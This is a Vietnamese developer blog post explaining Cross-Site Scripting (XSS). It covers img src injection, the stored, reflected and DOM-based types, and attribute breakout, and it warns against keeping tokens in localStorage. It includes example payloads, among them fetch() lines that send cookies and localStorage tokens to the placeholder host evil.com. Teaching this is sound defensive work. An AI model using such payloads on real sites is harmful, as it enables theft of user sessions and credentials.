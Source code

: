 ```yaml
---
title: "Một vài điều cần biết về XSS!!"
publishedAt: "2025-03-30"
image: "/images/blogs/about-xss/thumbnails.png"
summary: "Trong bài blog này, mình sẽ giải thích ngắn gọn các khái niệm liên quan và kết hợp với demo để các bạn dễ hình dung."
tags: ["Security"]
readTime: "8 min read"
---
```


## XSS là gì?

Cross-Site Scripting (XSS) là một lỗ hổng bảo mật phổ biến trong các ứng dụng web, cho phép kẻ tấn công chèn mã độc (thường là JavaScript) vào trang web mà người dùng khác truy cập. Điều này có thể dẫn đến việc đánh cắp thông tin nhạy cảm, chiếm quyền điều khiển phiên làm việc, hoặc thực hiện các hành động thay mặt nạn nhân.

Một ví dụ đơn giản và dễ hiểu: 

Giả sử bạn có một trang web cho phép người dùng thay ảnh đại diện của mình bằng cách nhập URL của ảnh để bạn không cần lưu trữ và xử lý ảnh trên server (hoặc một trường hợp khác tương tự).
Người dùng có thể nhập URL của ảnh từ một trang web khác, và bạn sẽ render nó như sau:

```html
<img src="{userInput}" />
```


Kẻ tấn công vô tình biết được điều này và đã lừa người dùng thay avatar của mình bằng một URL độc hại như sau:

```html
https://example.com/evil.png" onerror="alert('XSS!')

```

`https://example.com/evil.png` là một ảnh không tồn tại, vì vậy trình duyệt sẽ không thể tải được ảnh này và sẽ gọi hàm `onerror` để xử lý lỗi. Trong trường hợp này, hàm `onerror` sẽ thực thi mã JavaScript mà kẻ tấn công đã chèn vào, dẫn đến việc hiển thị thông báo "XSS!".

Thay vì hiển thị thông báo, kẻ tấn công có thể thực hiện các hành động khác như gửi cookie của người dùng đến máy chủ của mình hoặc thực hiện các hành động khác trên trang web mà người dùng đang truy cập.

Bạn nào mà còn lưu API key, token hay cookie trong localStorage hoặc sessionStorage thì không khác gì dâng token cho kẻ tấn công đâu nhé. Ví dụ thay vì `alert('XSS!')`, nếu là:

```html
fetch('https://evil.com/steal-cookie?cookie=' + document.cookie)
```

hay: 


```html
fetch('https://evil.com/steal-token?token=' + localStorage.getItem('token'))
```

thì kẻ tấn công đã có thể lấy được cookie hay token của người dùng rồi.

---

## Các loại XSS phổ biến

1. **Stored XSS (XSS lưu trữ)**  
   Mã độc được lưu trữ vĩnh viễn trên máy chủ (ví dụ: trong cơ sở dữ liệu) và được thực thi khi người dùng truy cập trang bị ảnh hưởng.

2. **Reflected XSS (XSS phản chiếu)**  
   Mã độc được phản chiếu từ máy chủ, thường thông qua URL hoặc input form, và được thực thi trong trình duyệt của nạn nhân.

3. **DOM-based XSS**  
   Lỗ hổng tồn tại trong mã phía client, nơi trình duyệt thực thi mã độc do việc thao tác không an toàn với DOM.

---

## XSS có thể được thực hiện qua những cách nào?

### Ví dụ kịch bản tấn công XSS thông qua src của thẻ img

Ứng dụng web của bạn cho phép người dùng nhập URL ảnh để hiển thị (ví dụ: ảnh đại diện, ảnh sản phẩm), và bạn render nó như sau:

```html
<img src="{userInput}" />

```

Nếu không validate kĩ userInput, kẻ tấn công có thể gửi:
```html
"><script>alert('XSS')</script>

```

Khi đó, thẻ `<img>` sẽ không được render thành:
```html
<img src=""><script>alert('XSS')</script> />

```
Và mã JavaScript sẽ được thực thi, dẫn đến việc hiển thị thông báo "XSS".